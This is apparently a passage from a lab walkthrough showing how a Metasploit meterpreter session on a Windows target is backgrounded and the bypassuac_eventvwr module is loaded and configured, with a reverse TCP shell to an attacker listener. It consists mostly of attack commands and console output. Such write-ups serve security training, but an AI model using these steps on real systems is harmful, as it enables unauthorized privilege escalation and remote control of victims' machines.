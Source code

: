 The Metasploit module `exploit/windows/local/bypassuac_eventvwr` is a local privilege escalation exploit that targets Windows UAC (User Account Control) using a method involving the Event Viewer

Background our current session using the command `background` or `CTRL + z`
```bash
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/http/icecast_header) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.9.8.180:4444 -> 10.10.37.29:49245 (10.10.37.29)

```

Use the exploit module, and set the required options
```bash
msf6 exploit(windows/http/icecast_header) > use exploit/windows/local/bypassuac_eventvwr
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac_eventvwr) > show options 

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86



View the full module info with the info, or info -d command.
```

set the local host and the session number that our target is running on
```bash
msf6 exploit(windows/local/bypassuac_eventvwr) > set session 1
session => 1
msf6 exploit(windows/local/bypassuac_eventvwr) > set LHOST 10.9.8.180
LHOST => 10.9.8.180
msf6 exploit(windows/local/bypassuac_eventvwr) > show options

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on

```